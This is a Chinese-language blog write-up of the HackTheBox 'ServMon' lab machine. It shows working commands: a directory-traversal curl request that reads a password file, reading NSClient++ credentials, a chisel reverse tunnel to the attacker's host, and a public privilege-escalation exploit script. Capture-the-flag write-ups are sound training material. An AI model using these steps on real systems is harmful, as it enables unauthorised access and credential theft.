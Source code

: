 ```yaml
---
layout: post
title: "[HackTheBox] Servmon Writeup"
subtitle: "少數有防毒軟體的靶機，但我沒有做AV Evation嘿嘿"
date: 2024-01-15
author: "Peter"
header-img: "img/post-bg-2023.jpg"
tags: [資安, writeup, hackthebox]
---
```


# [Windows][HTB] ServMon

厄嗯，這台靶機是相對比較惱人的一台，在一開始的階段我們透過查找可以找到一些文件表示密碼的位子，接著透過既有的web server的漏洞就可以拿到ssh的用戶密碼，可惜的是在提權階段因為防毒軟體的關係拿到反向的shell是十分困難，這邊簡單地透過windows的type指令拿到了root hash，進一步拿到reverse shell的話需要去應對防毒軟體，就不在這邊多做敘述。

<aside>
💡 包含所有系列的 writeup ，hackthebox 中所使用的本地ip與遠端ip會因為靶機的關係有所更動，請無視ip的變化。
</aside>

## Nmap Port Scan

```bash
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  06:35PM       <DIR>          Users
22/tcp   open  ssh           syn-ack ttl 127 OpenSSH for_Windows_8.0 (protocol 2.0)
80/tcp   open  http          syn-ack ttl 127
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
5666/tcp open  tcpwrapped    syn-ack ttl 127
6699/tcp open  napster?      syn-ack ttl 127
8443/tcp open  ssl/https-alt syn-ack ttl 127
```

省略了一些我個人覺得不太重要的資訊。這邊我們可以看到有ftp, ssh, smb, http, https，還有很奇怪的5666及6699。透過這個nmap我們並沒有看到一些特別奇怪的資訊，這些需要我們一個一個去找。

## FTP server enumeration

首先我們來看ftp，我們發現ftp是可以匿名登入的，透過匿名登入我們下載了一些資料，裡面包含了一些非常有價值的資訊。

```bash
# -m 代表著 -N -r -l inf --no-remove-listing，也就是下載所有檔案的意思， .listing 雖然有點惱人，但是-m是一個比較輕鬆的指令所以我都習慣直接這樣用

wget -m ftp://anonymous:anonymous@10.129.227.77
```

![Untitled](/img/in-post/servmon/Untitled1.png)

![Untitled](/img/in-post/servmon/Untitled.png)

在這邊我們可以看到幾個重點

1. Nadine把Nathan的 `Passwods.txt` 放在了桌面
2. NVMS的密碼被改過
3. NSClient的存取權限被限制
4. NVMS可以被外面存取
5. (可能) Passwords.txt 沒有被更新，還放在桌面

掌握了這些資訊，我們可以大致上判斷出

1. 密碼可能可以透過某些方法被存取
2. 有兩個web service，NVMS與NSClient
3. NVMS可能是漏洞，因為NSClient的存取權已經被限制

## NVMS Exploit

我們直接看打開的web service，跟我們上面猜測的一樣，port 80 跑的是 nvms ，而port 8443 跑的是 nsclient++。兩個服務我們雖然都可以碰到，但都沒有登入的密碼。

我們直接去查漏洞的話，發現[nvms有一個 Directory Traversal 的漏洞](https://www.exploit-db.com/exploits/48311)，這就有趣了，可以直接連結到我們上面的 Passwords.txt ，果不其然，我們可以簡單的看到密碼。

```bash
# 如果不用 --path-as-is 的話，curl會先處理url而會自動地把 ../ 去掉，這樣就達不成我們要的結果了
curl 'http://10.129.227.77/../../../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt' --path-as-is
```

![Untitled](/img/in-post/servmon/Untitled2.png)

而後我們用crackmapexec去察看密碼歸屬的話，我們就成功拿到了 `nadine` 的帳號密碼，也成功地讓我們登入了ssh從而取得user hash。

![Untitled](/img/in-post/servmon/Untitled3.png)

![Untitled](/img/in-post/servmon/Untitled4.png)

## NSClient++ Privilege Escalation

接下來我們拿到user之後就要進到pe的階段，我們先看到8443運行著NSClient++但是我們沒有密碼，同時在上網搜尋的時候都說這是一個可以進行PE的漏洞，於是我們照著[網路上的說明](https://www.exploit-db.com/exploits/46802)進行，也成功地拿到了密碼。

```bash
type "c:\program files\nsclient++\nsclient.ini"
```

![Untitled](/img/in-post/servmon/Untitled5.png)

但我們發現，在我們遠端連線的時候沒辦法成功登入NSClient++，這也跟我們在FTP文件裡面看到的敘述相符，我們可以試著用 `chisel.exe` 做 Port Forwarding 到我們的主機上來。

![[https://10.129.227.77:8443/index.html#/settings](https://10.129.227.77:8443/index.html#/settings)](/img/in-post/servmon/Untitled6.png)

[https://10.129.227.77:8443/index.html#/settings](https://10.129.227.77:8443/index.html#/settings)

> NSClient++ 有點卡，要多F5幾次。

```bash
# local maching
/opt/chisel/chisel server -p 8081 --reverse
# target machine
.\chisel.exe client 10.10.14.14:8081 R:8443:127.0.0.1:8443
```

![[https://127.0.0.1:8443/index.html#/settings](https://127.0.0.1:8443/index.html#/settings)](/img/in-post/servmon/Untitled7.png)

[https://127.0.0.1:8443/index.html#/settings](https://127.0.0.1:8443/index.html#/settings)

接下來我們可以用 github 上面的腳本來跑，理論上也可以直接用 NSClient++ 來跑，但我發現設定有夠不人性化，用腳本跑簡單很多。我們這邊把 root.txt 移到桌面，就可以看到內容了。記得要等一下，因為是走排程。

[https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation](https://github.com/xtizi/NSClient-0.5.2.35---Privilege-Escalation)

```bash
python3 exploit.py 'type C:\\users\\administrator\\Desktop\\root.txt > c:\\proof.txt"' https://localhost:8443 ew2x6SsGTxjRwXOT
```

![Untitled](/img/in-post/servmon/Untitled8.png)

這個靶機就到這裡囉，至於防毒軟體有多機車，這邊就不做 AV Evasion 了，有興趣請參考網路上的各大 Writeup。


--- 

感謝閱讀，本篇文章同步發表於FB粉絲專頁[PP學習筆記](https://www.facebook.com/pplearningnote)